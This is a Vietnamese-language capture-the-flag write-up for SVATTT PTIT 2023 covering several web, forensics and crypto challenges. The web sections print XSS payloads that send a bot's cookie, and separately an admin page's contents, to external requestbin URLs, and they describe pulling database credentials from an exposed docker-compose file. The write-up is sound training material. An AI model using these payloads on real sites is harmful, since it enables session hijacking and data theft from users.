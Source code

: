 ## SVATTT 2023

Writeup CTF Tuyển chọn SVATT PTIT 2023

### Web01

![image](https://github.com/lucthienphong1120/ISP-CTF/assets/90561566/8f2d9e98-cae7-4b05-9f66-9a736549d340)

Chúng ta được cho 2 link, 1 là link challenge, 2 là link của con bot. Kinh nghiệm cho mình thấy đây là 1 bài Reflected XSS để lấy cookie

Sau khi đăng ký và đăng nhập, đây là UI của web challenge gồm 1 form để nhập note, và note được nhập sẽ hiển thị ngay bên dưới

![image](https://github.com/lucthienphong1120/ISP-CTF/assets/90561566/7f82fdf6-89cd-4fb8-bcc2-b8b8256aa795)

Test thử với payload đơn giản `<img src=x onerror=alert(1)`, nhận thấy trang web bị lỗi XSS.

![image](https://github.com/lucthienphong1120/ISP-CTF/assets/90561566/574bc9c9-e5e8-4bbb-9252-efcf3367a9bd)

Ý tưởng bây giờ là khai thác Reflected XSS để lấy cookie của bot. Payload để lấy cookie của bot:

```
<img src=x onerror="this.src='https://eo4kqgjvne2o998.m.pipedream.net/?'+document.cookie; this.removeAttribute('onerror');">
```

Giải thích payload: Javascript được thực thi sẽ gửi GET HTTP request đến URL requestbin kèm với cookie của bot

Sau khi gửi đường link cho bot, mã Javascript được thực thi, lấy được cookie của bot

![image](https://github.com/lucthienphong1120/ISP-CTF/assets/90561566/3e41f92c-900f-46e7-b27c-3a3aa90d7148)

Thay cookie của người dùng bằng Cookie của bot, truy cập admin panel ta sẽ lấy được flag

![image](https://github.com/lucthienphong1120/ISP-CTF/assets/90561566/7d38182e-0724-4048-8ce7-1467e7fa8bfa)

![image](https://github.com/lucthienphong1120/ISP-CTF/assets/90561566/af2bed2d-7614-4823-9846-373ec1be911a)

### Web02

![image](https://github.com/lucthienphong1120/ISP-CTF/assets/90561566/98e465a6-64ef-4944-be67-a6f39669c1f2)

UI của challenge là 1 form search

![image](https://github.com/lucthienphong1120/ISP-CTF/assets/90561566/4917958b-73dc-4fcf-a06d-3a4b636a6cc9)

Form search làm mình nghĩ ngay đến SQLi. Nhưng sau khi test thử với Burp Suite và sqlmap thì mình không detect được SQLi xD

dirsearch URL của challenge, tìm được 1 endpoint thú dzị là `/docker-compose.yml`

![image](https://github.com/lucthienphong1120/ISP-CTF/assets/90561566/74b42930-bf6c-4981-b950-6eda6a437df8)

Truy cập `167.172.80.186:5000/docker-compose.yml` lấy được password vào mysql db 

![image](https://github.com/lucthienphong1120/ISP-CTF/assets/90561566/ef3b7974-d7be-400d-89e4-5d2345bcd38d)

Chui vào db mình lấy được flag

![image](https://github.com/lucthienphong1120/ISP-CTF/assets/90561566/aa3606ad-98d7-45ee-84b6-3f74e837dd11)

### Web01-again

![image](https://github.com/lucthienphong1120/ISP-CTF/assets/90561566/f5253b00-2fb9-4d9c-86e9-d100655f9642)

Vẫn là cái UI của bài web01 trước

vẫn là con BOT cũ

![image](https://github.com/lucthienphong1120/ISP-CTF/assets/90561566/615db062-4db2-4ceb-b9e3-91ee4853de06)

Nhưng cái khác ở đây là không thể dùng Reflected XSS để lấy cookie của bot do có flag http-only

![image](https://github.com/lucthienphong1120/ISP-CTF/assets/90561566/9466ba56-6f5e-42b2-aa8b-8398bfdd868c)

Ý tưởng của mình là thay vì lấy cookie của con bot để vào được admin panel, giờ mình sẽ điều khiển con bot lấy luôn flag về cho mình : D

POC để con bot truy cập admin pannel và lấy flag cho mình

```
<script>
   var req = new XMLHttpRequest(); // Initializes the request object
   req.onload=reqListener; // Set the listener reqListener that is triggered when the response is ready
   var url="http://167.172.80.186:9999/admin.php"; // Initializes the URL of the PHP info page
   req.withCredentials=true; // Send the cookie header
   req.open("GET",url,false); // The request will be sent to the PHP info page of Metasploitable 2 (192.168.240.128) through the GET method synchronously
   req.send(); // Send the request
   function reqListener() {
      var req2=new XMLHttpRequest(); 
      const sess=this.responseText.substring(this.responseText.indexOf("ATTT"));
      req2.open("GET","https://eoisvenotwsj688.m.pipedream.net/?data="+btoa(sess),false);
      req2.send() 
   };
</script>
```

đầu tiên bot sẽ truy cập vào trang admin

Sau đó nó sẽ lọc response để lấy ra flag theo format ATTT{.......}

bước cuối nó gửi flag để server của mình, mã hóa base64 để tránh việc request URL quá dài

![image](https://github.com/lucthienphong1120/ISP-CTF/assets/90561566/cd46d615-3fd1-4bb2-b672-aacbe4d962ba)

giải ra chúng ta có flag

![image](https://github.com/lucthienphong1120/ISP-CTF/assets/90561566/86fb98cd-e155-42b9-8be7-0cba683d51ff)

### For01

![image](https://github.com/lucthienphong1120/ISP-CTF/assets/90561566/b743463e-62c2-4d8e-b444-6a1f853b0567)

Ok, challenge này cho chúng ta 1 file rar, sau khi giải nén cấu trúc thư mục sẽ như thế này

![image](https://github.com/lucthienphong1120/ISP-CTF/assets/90561566/b20e97bd-595d-4d89-85f1-f9c8a742e6f7)

Tóm gọn lại là có 100 thư mục được đánh dấu từ 0-100, trong mỗi thư mục lại có 100 thư mục được đặt tên từ 0-100. Trong mỗi thư mục con lại có 100 file .txt 0.txt đến 100.txt . Nhiệm vụ của chúng ta là tìm ra flag trong đống file .txt đấy : D. Mình dùng python để tự động hóa quá trình tìm flag. Đây là source code:

```
import os

for i in range(0,101):
    for j in range(0,101):
        for filename in os.listdir('./{}/{}/'.format(i,j)):
            f = open('./{}/{}/'.format(i,j)+filename,'r')
            r = f.read()
            if r != "almost" and r != "no" and r!="nah" and r!="you_got_it" and r!="try_again" and r!="Not_this_time" and r!="so_close" and r!="nope" and r!="better_luck_next_time":
                print(r)
```

Mình sử dụng 2 vòng lặp và đọc tất cả các file .txt trong thư mục con, kết quả tìm ra flag

![image](https://github.com/lucthienphong1120/ISP-CTF/assets/90561566/fb764715-86c4-4bf3-ba92-f0cf9cccba6c)

### Crypto01

![image](https://github.com/lucthienphong1120/ISP-CTF/assets/90561566/68e32850-7ecf-43db-ad11-6608ffb95042)

Source code enc.cpp:

```
#include <iostream>
#include <string>
using namespace std;

#define EL printf("\n")

string flag = "ATTT{fake_flag}";

void bases(string &s) {
    for (int i = 0; i < s.size(); i += 4)
        printf("%o %u %x %u ", (unsigned char) s[i], (unsigned char) s[i + 1], (unsigned char) s[i + 2], (unsigned char) s[i + 3]);
    EL;
}

int main() {
    freopen("res.txt", "w", stdout);
    bases(flag);

    return 0;
}
```

Thuật toán: Lấy 4 kí tự liền nhau, kí tự đầu tiên sẽ chuyển về dạng octal, kí tự thứ 2 là dạng decimal, kí tự thứ 3 là dạng hex và kí tự thứ 4 tiếp tục là decimal, và lặp lại như vậy đến khi hết chuỗi.

Mình hiểu thuật toán nhưng quên mất cách code c++, code python thì lú nên tức quá quay ra làm bằng tay. Bật 4 tab cyberchef và quẩy tầm 2,3p mình được flag ám ảnh nhất mình từng tìm được

![image](https://github.com/lucthienphong1120/ISP-CTF/assets/90561566/24b5e93a-1c1e-43de-ba66-84949d668ab9)

